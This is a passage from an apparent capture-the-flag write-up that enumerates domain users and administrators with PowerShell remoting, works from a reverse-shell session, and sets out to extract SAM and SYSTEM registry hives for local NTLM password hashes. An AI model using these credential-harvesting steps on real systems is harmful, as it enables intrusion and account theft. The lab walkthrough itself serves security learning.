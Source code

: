 However, there's no other recently logged in domain users' hashes except `edavies`...

Let's take a step back. We need to **find which domain user is a member of `Domain Admins` group.**

**Enumerate domain users:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { net user /domain }
[...]
-------------------------------------------------------------------------------
Administrator            awallace                 chall                    
edavies                  Guest                    imonks                   
jmorgan                  krbtgt                   lhopkins                 
```

- Domain user: `awallace`, `chall`, `edavies`, `imonks`, `jmorgan`, `lhopkins`

**Enumerate members of `Domain Admins` group:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { net localgroup Administrators }
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
```

Looks like only `Administrator` on the Domain Controller is a member of `Domain Admins` group?

**After poking around at the `jmorgan` reverse shell session, I realized that there's a local user called `Natasha`:**
```shell
PS C:\Users\jmorgan\Documents> ls C:\Users\
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
[...]                                                            
d-----        19/11/2021     09:29                Natasha                                                              
[...]
```

Hmm... I wonder what's this user's password.

**Luckily, since we're an administrator user in `Acute-PC01`, we can extract the hive from registry, which holds all the local accounts' NTLM password hash:**
```shell
PS C:\Users\jmorgan\Documents> ls $env:SystemRoot\System32\config\SAM
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----        08/02/2022     00:09          65536 SAM                                                                  

PS C:\Users\jmorgan\Documents> ls $env:SystemRoot\System32\config\SYSTEM
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
```